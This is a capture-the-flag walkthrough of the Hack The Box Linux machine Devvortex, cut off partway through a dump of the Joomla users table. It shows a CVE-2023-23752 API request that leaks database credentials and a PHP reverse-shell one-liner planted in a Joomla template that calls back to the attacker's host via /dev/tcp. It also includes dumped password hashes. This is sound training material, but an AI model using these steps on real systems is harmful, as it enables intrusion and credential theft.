










# Devvortex



Machine: [https://app.hackthebox.com/machines/Devvortex](https://app.hackthebox.com/machines/Devvortex)

Created by: [7u9y](https://app.hackthebox.com/users/260996)

Difficulty: Easy

OS: Linux

## Machine Info

Devvortex is an easy-difficulty Linux machine that features a Joomla CMS that is vulnerable to information disclosure. Accessing the service's configuration file reveals plaintext credentials that lead to Administrative access to the Joomla instance. With administrative access, the Joomla template is modified to include malicious PHP code and gain a shell. After gaining a shell and enumerating the database contents, hashed credentials are obtained, which are cracked and lead to SSH access to the machine. Post-exploitation enumeration reveals that the user is allowed to run apport-cli as root, which is leveraged to obtain a root shell.

## Enumeration

### Nmap

```shell
labadmin@labmachine:~/devvortex$ nmap -p- --min-rate 1000 -oN devvortex-default-nmap.log 10.10.11.242
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-25 19:09 PDT
Nmap scan report for 10.10.11.242
Host is up (0.18s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 76.63 seconds

labadmin@labmachine:~/devvortex$ nmap -p 22,80 -sV -sC -oN devvortex-sv-sc-nmap.log 10.10.11.242
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-25 19:12 PDT
Nmap scan report for 10.10.11.242
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.53 seconds
```

Nmap reveals 2 open ports:

- 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; 
- 80/tcp open  http    nginx 1.18.0 (Ubuntu)

We also see that port 80 redirects to `http://devvortex.htb/` so we add that to `/etc/hosts`.

```shell
labadmin@labmachine:~/devvortex$ sudo bash -c 'echo "10.10.11.242  devvortex.htb" >> /etc/hosts'
```

### gobuster subdomain

```shell
labadmin@labmachine:~/devvortex$ gobuster vhost -u http://devvortex.htb -w /usr/share/wordlists/seclists/Discovery/DNS/s
ubdomains-top1million-5000.txt -t 50 --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://devvortex.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.devvortex.htb Status: 200 [Size: 23221]
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
```

We found subdomain `dev` and edit the `/etc/hosts` entry to contain `dev.devvortex.htb` as well.

```shell
10.10.11.242  devvortex.htb  dev.devvortex.htb
```

### HTTP port 80

We then navigate to `http://devvortex.htb/`.


On the bottom of each page we can subscribe for newsletter.



Nothing special about the form input code.

```html
            <h5>
              Newsletter
            </h5>
            <form action="">
              <input type="email" placeholder="Enter your email">
              <button>
                Subscribe
              </button>
            </form>
```

On the contact us page we find a contact form.




Nothing special about the contact form either.

```html
              <div class="contact-form">
                <form action="">
                  <div>
                    <input type="text" placeholder="Full Name ">
                  </div>
                  <div>
                    <input type="text" placeholder="Phone Number">
                  </div>
                  <div>
                    <input type="email" placeholder="Email Address">
                  </div>
                  <div>
                    <input type="text" placeholder="Message" class="input_message">
                  </div>
                  <div class="d-flex justify-content-center">
                    <button type="submit" class="btn_on-hover">
                      Send
                    </button>
                  </div>
                </form>
              </div>
```


### HTTP port 80 subdomain dev

Browsing to `http://dev.devvortex.htb`.



This is most likely a development instance of the web page.

Nothing special was found when looking around.

### Directory brute force subdomain dev

```shell

```

Here we find `administrator` directory that seems interesting.


### HTTP port 80 subdomain dev administrator

Navigating to `http://dev.devvortex.htb/administrator/`



We find that it is hosting an instance of [Joomla](https://www.joomla.org/) and it loaded the Joomla administrator login page.

### Joomscan

Running a Joomscan.

```shell
labadmin@labmachine:~/devvortex$ joomscan -u http://dev.devvortex.htb
```

```shell
    ____  _____  _____  __  __  ___   ___    __    _  _
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  (
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)

    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://dev.devvortex.htb ...


[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 4.2.6

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://dev.devvortex.htb/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://dev.devvortex.htb/robots.txt

Interesting path found from robots.txt
http://dev.devvortex.htb/joomla/administrator/
http://dev.devvortex.htb/administrator/
http://dev.devvortex.htb/api/
http://dev.devvortex.htb/bin/
http://dev.devvortex.htb/cache/
http://dev.devvortex.htb/cli/
http://dev.devvortex.htb/components/
http://dev.devvortex.htb/includes/
http://dev.devvortex.htb/installation/
http://dev.devvortex.htb/language/
http://dev.devvortex.htb/layouts/
http://dev.devvortex.htb/libraries/
http://dev.devvortex.htb/logs/
http://dev.devvortex.htb/modules/
http://dev.devvortex.htb/plugins/
http://dev.devvortex.htb/tmp/


[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found


Your Report : reports/dev.devvortex.htb/
```

It reveals it is running Joomla version `Joomla 4.2.6`.

Searching internet we find this vulnerability.

[https://nvd.nist.gov/vuln/detail/CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752)
[https://vulncheck.com/blog/joomla-for-rce](https://vulncheck.com/blog/joomla-for-rce)

To exploit this we send a get request to `api/index.php/v1/config/application?public=true`.

```shell
labadmin@labmachine:~/devvortex$ curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
* Host dev.devvortex.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.242
*   Trying 10.10.11.242:80...
* Connected to dev.devvortex.htb (10.10.11.242) port 80
> GET /api/index.php/v1/config/application?public=true HTTP/1.1
> Host: dev.devvortex.htb
> User-Agent: curl/8.5.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Thu, 25 Apr 2024 12:06:52 GMT
< Content-Type: application/vnd.api+json; charset=utf-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< x-frame-options: SAMEORIGIN
< referrer-policy: strict-origin-when-cross-origin
< cross-origin-opener-policy: same-origin
< X-Powered-By: JoomlaAPI/1.0
< Expires: Wed, 17 Aug 2005 00:00:00 GMT
< Last-Modified: Thu, 25 Apr 2024 12:06:52 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
<
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes"* Connection #0 to host dev.devvortex.htb left intact
:{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"[OMITTED]","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}

```

Reading the response and it is leaking a user and password.

User: `{"user":"lewis","id":224}`

Password: `{"password":"[OMITTED]","id":224}`

### Foothold

Login in using lewis credentials



Browsing through the web pages we find `System > Site Templates > Cassiopeia Details and Files`.



 

Here we see the current template contents.

We open the `error.php` and add malicious PHP code to the end of the file.

`<?php system('bash -c "bash -i >& /dev/tcp/10.10.14.25/8000 0>&1"'); ?>`

This one-liner uses the `system()` function to run trigger a reverse shell.



We finish by clicking save.

Next we start a local Netcat listener.

```shell
labadmin@labmachine:~/devvortex$ nc -lvnp 8000
Listening on 0.0.0.0 8000
```

And we finish with loading the URL to the modified file with our payload.

`http://dev.devvortex.htb/templates/cassiopeia/error.php/error`



Back to the local listener and we have reverse shell as www-data.

```shell
labadmin@labmachine:~/devvortex$ nc -lvnp 8000
Listening on 0.0.0.0 8000
Connection received on 10.10.11.242 37238
bash: cannot set terminal process group (872): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@devvortex:~/dev.devvortex.htb$
```
The user flag is available under logan home directory, but no permission.

```shell
www-data@devvortex:~/dev.devvortex.htb/administrator$ cat /home/logan/user.txt
<vvortex.htb/administrator$ cat /home/logan/user.txt
cat: /home/logan/user.txt: Permission denied
```

##  Lateral Movement

Using `netstat` we look for listening ports.

```shell
www-data@devvortex:~/dev.devvortex.htb$ netstat -tnlp
netstat -tnlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      880/nginx: worker p
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      880/nginx: worker p
```

We see that port `3306` and `33060` are listening locally. These are usually used by MySQL by default. Looking at the `configuration.php` file in `/var/www/dev.devvortex.htb` we find database user, password and name.

```shell
www-data@devvortex:~/dev.devvortex.htb$ cat configuration.php
cat configuration.php
[OMITTED]
        public $user = 'lewis';
        public $password = '[OMITTED]';
        public $db = 'joomla';
[OMITTED]
```

Before connecting the database

In order to properly interact with MySQL we first need to upgrade our current shell. We use the `script` command to create a new `PTY` using `bash`

```shell
www-data@devvortex:~/dev.devvortex.htb$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@devvortex:~/dev.devvortex.htb$
```

### SQL

Time to explore the mysql database.

```shell
www-data@devvortex:~/dev.devvortex.htb$ mysql -u lewis -p joomla
mysql -u lewis -p joomla
Enter password: 
[OMITTED]
mysql>
```

Showing the tables.

```
mysql> SHOW TABLES;
SHOW TABLES;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
[OMITTED]
| sd4fg_users                   |
[OMITTED]
71 rows in set (0.00 sec)
```

The `sd4fg_users` looks interesting to look further at.

```shell
mysql> SELECT * FROM sd4fg_users;
SELECT * FROM sd4fg_users;
[OMITTED]
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2024-04-25 12:11:52 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL
